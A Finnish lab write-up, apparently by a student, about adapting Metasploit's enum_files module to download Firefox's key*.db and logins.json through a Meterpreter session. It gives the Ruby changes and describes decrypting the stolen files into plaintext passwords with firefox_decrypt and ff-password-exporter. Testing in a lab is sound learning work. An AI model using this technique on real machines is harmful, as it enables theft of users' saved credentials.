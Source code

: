 # Metasploit moduuli firefox salasanojen varastukseen.

## Esittely

Tässä on dokumentaatio metasploit moduulista, jonka tarkoitus on varastaa meterpreter yhteyden kautta Firefoxin salasana tiedostot.  
Moduuli on rakennettu enum_files pohjalta ja on kokonaisuudessaan melko yksinkertainen.
Tein mielummin oman moduulin enum_files pohjalta, sillä valmis firefox_cred moduuli lataa paljon ylimääräistä tavaraa ja halusin pitää liikenteen minimaalisena.  


Työkaluina käytin Armitagea moduulin käyttämiseen, Virtualboxia testikoneen pyörittämiseen ja Virtualboxissa aikaisemmassa dokumentissa luotua testikonetta, sekä atomia moduulin tekemiseen.
Käytettyyn testikoneeseen oli valmiiksi syötetty kaksi pseudo käyttäjätunnusta ja salasanaa, jotta moduuli oikeasti hakisin jotain kohteesta.
Koska moduulia käytetään meterpreter yhteyden kautta, niin piti virustorjunnat ottaa pois päältä, että yhteys toimisi ja moduulia pystyisi käyttämään.

## Moduulin rakennus

Aikaisemmassa dokumentaatiossa kävi ilmi, että Firefox säilyttää tallennettuja salasanoja kahdessa tiedostossa, joista toinen on logins.json, jossa Firefox säilyttää itse tunnukset ja salasanat, sekä key*.db jossa Firefox säilyttää avainta jolla salasanat on kryptattu. 
Tarvitsemme siis molemmat tiedostot, jos haluamme avata salasanat.
  
Aloin tutkimaan miten saisin haettua tiedostot helposti, kun törmäsin metasploitissa olevaan post exploittiin nimeltä **enum_files**. Enum_filesilla pystyi hakemaan tietyltä kovalevyltä kaikki tiedostot, jotka vastasivat hakuun annettua tiedoston nimeä.  
Testasin enum_filesin toimintaa antamalla haettavaksi tiedostoksi key*.db. Tähtimerkinnällä viitataan siihen, ettei tiedetä mikä numero key*.db tiedoston nimessä on, joten moduuli hakee kaikki kuvaukseen sopivat tiedostot. Firefoxissa tosin pitäisi olla vain yksi key*.db per profiili, joten tämä ei tuota ongelmia. Haettavaksi kohteeksi asetin koko C:/ aseman.  
  
Enum_files löysikin firefoxin key*.db tiedoston ja latasi sen. Moduulissa oli tosin ongelmana se, että se osasi ladata vain yhden tiedoston kerrallaan. Kokeilin erilaisia tapoja saada sitä lataamaan useamman tiedoston, kuten antamalla haettavaksi kohteeksi **key*.db && logins.json**, mutta tuloksetta. Näin ollen päätin, että minun pitää kustomoida moduulin koodia, jotta se toimii niinkuin haluan.
  
Enum_filesin koodi on kirjoitettu Rubylla ja se löytyy polusta: /usr/share/metasploit-framework/modules/post/windows/gather/enum_files.rb. Polku voi vaihdella, jos metasploit on rakennettu toiselle distrolle tai githubin kautta. 
  
Kopioin enum_files.rb tiedoston polkuun: ~/.msf4/modules/post/windows/gather/, joka on tarkoitettu nimenomaan metasploit moduulien kehittämistä varten ja kolmannen osapuolen moduuleja varten.  
Koska en osaa Rubya, niin koodin tutkiminen ja joten kuten ymmärtäminen tuotti hieman vaikeuksia, mutta lukuisten kokeilujen jälkeen löysin melko yksinkertaisen tekniikan, jolla sain enum_filesin hakemaan kaksi eri tiedostoa kohteesta.
  
Aluksi lisäsin register_options kohtaan uuden asetuksen, johon asetin haettavaksi logins.jsonin.
```
    register_options(
      [
        OptString.new('SEARCH_FROM', [ false, 'Search from a specific location. Ex. C:\\', 'C:/']),	# Tämä kertoo mistä levyltä haetaan.
        OptString.new('FILE_GLOBS',  [ true, 'Filename for decrypt file. Ex. key3.db', 'key*.db']),	# Tämä kertoo tiedoston, jota etsitään kohteesta.
        OptString.new('FILE_GLOBS2',  [ true, 'File name for logins file. Ex. logins.json', 'logins.json'])	# Tämä on itse lisäämäni kopio ylemmästä vaihtoehdosta toiselle tiedostolle.
      ])
```
Tämän jälkeen loin koodin uudelle FILE_GLOBS2 vaihtoehdolle, että sekin haetaan kohteesta:
```
    datastore['FILE_GLOBS2'].split(",").each do |glob|
      begin
        download_files(location, glob.strip)
      rescue ::Rex::Post::Meterpreter::RequestError => e
        if e.message =~ /The device is not ready/
          print_error("#{my_drive} drive is not ready")
          next
        elsif e.message =~ /The system cannot find the path specified/
          print_error("Path does not exist")
          next
        else
          raise e
        end
      end
    end
```
Koodi on siis täysin sama, kuin mikä oli FILE_GLOBS vaihtoehdolle, mutta eri datastorella.  
Tämä ei ole puhtain tai optimaalisin tapa toimia, sillä nyt koodi hakee uudestaan kovalevyltä tätä tosita tiedostoa ja lataa sitten sen, vaikka tiedostot ovat täysin samassa polussa. Jouduin kutienkin tyytymään tähän ratkaisuun, sillä en ymmärrä tarpeeksi Rubya, että osaisin rakentaa tämän optimaalisemmaksi ja näin tämä toimii.
  

## Tiedostojen purku.

Moduulin lataamat tiedostot menevät kansioon polussa: ~/.msf4/loot ja ovat hieman kryptisillä nimillä.  
Tiedostojen nimistä käy ilmi latausaika, IP-osoite josta ladattu, sekä tiedosto pääte. Tiedosto päätteissä on pieni ongelma, sillä koodi ei osaa nimetä .json tiedostoa samalla nimellä vaan muuttaa sen .bin nimiseksi tiedostoksi. Kansiosta löytyy kaksi kumpaakin tiedostoa, eli .db ja .bin tiedostoa on kumpaakin kaksi kappaletta. Tämä johtuu todennäköisesti siitä, että koneelta löytyy kaksi kertaa nämä tiedostot OpenSSH:n luoman linkin kautta.  
Näin ollen muutin tiedostojen nimet hieman ymmärrettäviksi. Nimesin yhden .db tiedoston key4.db tiedostoksi ja yhden .bin tiedoston logins.json tiedostoksi.  
  
Kopioin kummatkin tiedostot uuteen kansioon kotihakemistossa nimeltä "purku", jossa aijon purkaa nämä tiedostot oikeiksi salasanoiksi. Koska purkaminen olisi käsin melko työlästä, niin käytin apuna firefox_decrypt.py skriptiä, joka löytyy sen kehittäjän githubista osoitteesta: https://github.com/unode/firefox_decrypt  
Nopealla silmäilyllä koodi ei näytä haitalliselta itselleni.
  
Tiedostojen purkamisen piti onnistua komennolla: **python firefox_decrypt.py purku/**, mutta itse sain virheeksi: **ERROR - Couldn't initialize NSS, maybe '/root/purku' is not a valid profile?**  
Tiedosto polku oli oikein, mutta ilmeisesti skripti olisi halunnut myös profile.ini tiedoston mukaan purkamiseksi. Kokeilin erilaisia tekniikoita, kuten NSS uudelleen asennuksen, mutta nämä eivät auttaneet.  
Lopuksi löysin firefox_decryptistä tehdun forkin nimeltä ff-password-exporter, joka löytyy osoitteesta: https://github.com/kspearrin/ff-password-exporter
  
Ff-password-exporter, jolla oli mainittu erikseen, että se tukee Firefox58+ versioissa käytettyjä key4.db profiileja. Ff-password-exporter on firefox_decrypt.py pohjautuva spin-offi, jossa on graafinen käyttöliittymä.  
Ff-password-exporterin käyttö oli erittäin suoraviivaista. Ohjelmalle piti aluksi antaa suoritus oikeudet, joka onnistuu esimerkiksi klikkaamalla oikealla kuvaketta ja laittamalla ruksin execute kohtaan permissions välilehdellä.  
Tämän jälkeen ohjelman pystyi suorittamaan ja ohjelmasta valittiin vain kansio, jossa key4.db ja logins.json ovat. Koska käytössä ei ollut master passwordia, niin voi kentän jättää tyhjäksi.  

(kuva)

Tämän jälkeen ohjelma kysyy mihin kansioon tulokset halutaan tallentaa ja missä muodossa (json tai CSV).  
Tiedostossa näkyvät purkamisen jälkeen salasanat ja käyttäjätunnukset selkokielisenä.

(kuva)




